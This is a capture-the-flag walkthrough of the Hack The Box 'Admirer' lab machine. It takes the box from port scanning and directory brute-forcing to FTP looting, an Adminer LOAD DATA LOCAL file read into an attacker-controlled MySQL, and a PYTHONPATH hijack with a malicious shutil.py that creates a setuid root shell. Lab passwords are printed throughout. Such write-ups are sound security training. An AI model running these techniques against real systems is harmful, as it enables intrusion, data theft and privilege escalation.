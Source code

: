 
# 🔍 HTB: Admirer — Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
**Tags:** `ftp`, `adminer`, `mysql`, `pythonpath`, `privesc`, `path hijack`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.187
```

### Service and Script Scan

```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.187
```

---

## 🌐 Web Enum [HTTP](HTTP.md)

### robots.txt

```bash
curl http://10.10.10.187/robots.txt
```

- Found `/admin-dir` → 403 Forbidden
- Mention of username: **waldo**

### Gobuster on `/`

```bash
gobuster dir -u http://10.10.10.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 -o scans/gobuster-root-medium-php
```

### Gobuster on `/admin-dir`

```bash
gobuster dir -u http://10.10.10.187/admin-dir \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,zip,html -t 20 -o scans/gobuster-admindir
```

- Found: `contacts.txt`, `credentials.txt`

---

## 📁 Sensitive Files

### contacts.txt

```bash
curl http://10.10.10.187/admin-dir/contacts.txt
```

### credentials.txt

```bash
curl http://10.10.10.187/admin-dir/credentials.txt
```

- FTP creds: `ftpuser : %n?4Wz}R$tTF7`

---

## 📤 FTP Access

```bash
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187
```

- Files: `dump.sql`, `html.tar.gz`

### Extract and Analyze Code

```bash
tar -xzf html.tar.gz
```

Look for:
- `utility-scripts/`
- `w4ld0s_s3cr3t_d1r/`

#### Database Credentials Found

From `index.php` / `db_admin.php`:
```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";  # backup creds
$password = "&<h5b~yK3F#{PaPB&dA}{H>";  # live creds
```

---

## 💽 Adminer Exploit for File Read

Visit:
```text
http://10.10.10.187/utility-scripts/adminer.php
```

### Setup Local MySQL for Remote Read

```sql
GRANT ALL PRIVILEGES ON *.* TO root@'10.10.10.187' IDENTIFIED BY '0xdf' WITH GRANT OPTION;
```

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

### In Adminer

Connect to local MySQL using:
- Host: your IP
- User: `root`
- Pass: `0xdf`
- DB: `pwn`

Then execute:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE exfil
FIELDS TERMINATED BY "\n";
```

View results:
```sql
SELECT * FROM exfil;
```

---

## 🔑 SSH as Waldo

```bash
sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
```

✅ Grab `user.txt`

---

## 🧑‍🔧 Privilege Escalation: Python Path Hijack

### Check Sudo Rights

```bash
sudo -l
```

- Can run: `/opt/scripts/admin_tasks.sh` with `SETENV`
- Calls: `/opt/scripts/backup.py` → uses `shutil`

### Exploit Plan

1. Create malicious `shutil.py` in writable dir.
2. Set `PYTHONPATH` to load it.
3. Hijack `make_archive()` to run as root.

### Payload: `shutil.py`

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c):
    os.system("cp /bin/bash /var/tmp/rootbash; chmod +s /var/tmp/rootbash")
```

### Upload & Trigger

```bash
cd /var/tmp
wget http://<your-ip>/shutil.py
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
```

### Spawn Root Shell

```bash
/var/tmp/rootbash -p
```

✅ Grab `root.txt`